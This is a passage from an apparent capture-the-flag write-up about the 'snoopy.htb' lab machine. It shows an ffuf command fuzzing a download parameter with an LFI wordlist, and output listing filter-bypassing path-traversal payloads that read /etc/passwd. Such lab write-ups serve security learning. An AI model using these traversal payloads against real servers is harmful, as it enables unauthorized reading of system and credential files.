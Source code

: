 I'm going to hold off on putting these into my `hosts` file for now.
`mm` I know returns something different, so that one is worthwhile. I
can also see that `mail.snoopy.htb` is not there, which fits with the
errors observed above. I'll keep the others in mind as well.

## Shell as cbrown

### File Read

#### Identify

On seeing a URL like `/download?file=announcement.pdf`, the first thing
to check is for a local file include or file read vulnerability.
Manually I'll check in Burp Repeater, but it just returns a 0 byte
response:

![](/img/image-20230509152805795.png)

It could be not vulnerable, or there could be some filtering to bypass.
I'll use an LFI wordlist to check a lot at once with `ffuf`:



    oxdf@hacky$ ffuf -u http://snoopy.htb/download?file=FUZZ -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -mc all -ac

            /'___\  /'___\           /'___\       
           /\ \__/ /\ \__/  __  __  /\ \__/       
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
             \ \_\   \ \_\  \ \____/  \ \_\       
              \/_/    \/_/   \/___/    \/_/       

           v2.0.0-dev
    ________________________________________________

     :: Method           : GET
     :: URL              : http://snoopy.htb/download?file=FUZZ
     :: Wordlist         : FUZZ: /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
     :: Follow redirects : false
     :: Calibration      : true
     :: Timeout          : 10
     :: Threads          : 40
     :: Matcher          : Response status: all
    ________________________________________________

    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 95ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 96ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 97ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]
    ....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 796, Words: 3, Lines: 2, Duration: 98ms]